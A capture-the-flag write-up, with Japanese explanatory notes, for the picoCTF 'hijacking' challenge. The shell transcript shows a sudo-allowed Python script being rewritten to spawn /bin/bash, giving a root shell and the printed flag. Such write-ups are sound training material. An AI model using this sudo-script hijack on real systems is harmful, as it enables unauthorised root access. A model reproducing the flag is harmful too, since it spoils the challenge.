 # hijacking:bynary Medium  
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
ssh -p 56840 picoctf@saturn.picoctf.net  
The authenticity of host '[saturn.picoctf.net]:56840 ([13.59.203.175]:56840)'n't be established.  
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.  
This host key is known by the following other names/addresses:  
    ~/.ssh/known_hosts:32: [hashed name]  
    ~/.ssh/known_hosts:35: [hashed name]  
    ~/.ssh/known_hosts:36: [hashed name]  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[saturn.picoctf.net]:56840' (ED25519) to the list of known hosts.  
picoctf@saturn.picoctf.net's password:   
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)  

 * Documentation:  https://help.ubuntu.com  
 * Management:     https://landscape.canonical.com  
 * Support:        https://ubuntu.com/advantage  

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.  

To restore this content, you can run the 'unminimize' command.  

picoctf@challenge:~$ ls -la  
total 16  
drwxr-xr-x 1 picoctf picoctf   20 Jul  6 06:39 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py  


The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.  

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.  

picoctf@challenge:~$ sudo -l  
Matching Defaults entries for picoctf on challenge:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  

User picoctf may run the following commands on challenge:  
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py  

picoctf@challenge:〜$ cat .server.py  
import base64  
import os  
import socket  
ip = 'picoctf.org'  
response = os.system("ping -c 1 " + ip)  
#saving ping details to a variable  
host_info = socket.gethostbyaddr(ip)   
#getting IP from a domaine  
host_info_to_str = str(host_info[2])  
host_info = base64.b64encode(host_info_to_str.encode('ascii'))  
print("Hello, this is a part of information gathering",'Host: ', host_info)  
picoctf@challenge:~$ vi .server.py  
picoctf@challenge:~$ cat .server.py  
import os  
os.system("/bin/bash")  

picoctf@challenge:〜$ sudo /usr/bin/python3 /home/picoctf/.server.py  
root@challenge:/home/picoctf# ls -la  
total 24  
drwxr-xr-x 1 picoctf picoctf   73 Jul  6 06:42 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 picoctf picoctf   33 Jul  6 06:42 .server.py  
-rw-r--r-- 1 picoctf picoctf  375 Feb  7  2024 .server.py~  
-rw------- 1 picoctf picoctf  812 Jul  6 06:42 .viminfo  
root@challenge:/home/picoctf# cd /  
root@challenge:/# ls -la  
total 0  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 .  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 ..  
-rwxr-xr-x   1 root   root      0 Jul  6 06:38 .dockerenv  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin  
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot  
d---------   1 root   root      6 Sep 26  2024 challenge  
drwxr-xr-x   5 root   root    340 Jul  6 06:38 dev  
drwxr-xr-x   1 root   root     66 Jul  6 06:38 etc  
drwxr-xr-x   1 root   root     21 Aug  4  2023 home  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64  
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32  
drwxr-xr-x   2 root   root      6 Mar  8  2023 media  
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt  
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt  
dr-xr-xr-x 241 nobody nogroup   0 Jul  6 06:38 proc  
drwx------   1 root   root     23 Sep 26  2024 root  
drwxr-xr-x   1 root   root     54 Jul  6 06:39 run  
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin  
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv  
dr-xr-xr-x  13 nobody nogroup   0 Jul  6 06:38 sys  
drwxrwxrwt   1 root   root      6 Sep 26  2024 tmp  
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr  
drwxr-xr-x   1 root   root     17 Mar  8  2023 var  
root@challenge:/# cd root  
root@challenge:~# ls -la  
drwx------ 1 root root   23 Sep 26  2024 .  
drwxr-xr-x 1 root root   51 Jul  6 06:38 ..  
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc  
-rw-r--r-- 1 root root   43 Sep 26  2024 .flag.txt  
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile  
root@challenge:〜# cat .flag.txt  
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}  

# 考えたこと  
ユーザ権限をルートへの昇格を狙う。  
SUDO -lをしたところ/usr/bin/python3 /home/picoctf/.server.pyはパスワードがいらないことがわかった。  
なので、次に.server.pyを編集する。（.server.pyに書き込み権限があるため実行できる）  
そして、SUDOで/usr/bin/python3 /home/picoctf/.server.pyを実行するとルートへ昇格できた。  
最後にルートディレクトリのFLAG.txtをcatコマンドで実行するとFLAG.txtが獲得できた  

# ポイント  
sudoでpyton3プロセスが起動するー＞python3がルート権限で実行される。  
その後、.server.pyが実行されると内部のos．sytem（"/bin/bash"）が実行される。  
よって、ルート権限をもつbashプロセスがターミナルに表示される。  
＊pyton3のルート権限を引き継いでいるだけなのでos．sytem（"/bin/bash"）を実行すると権限が昇格するわけではない  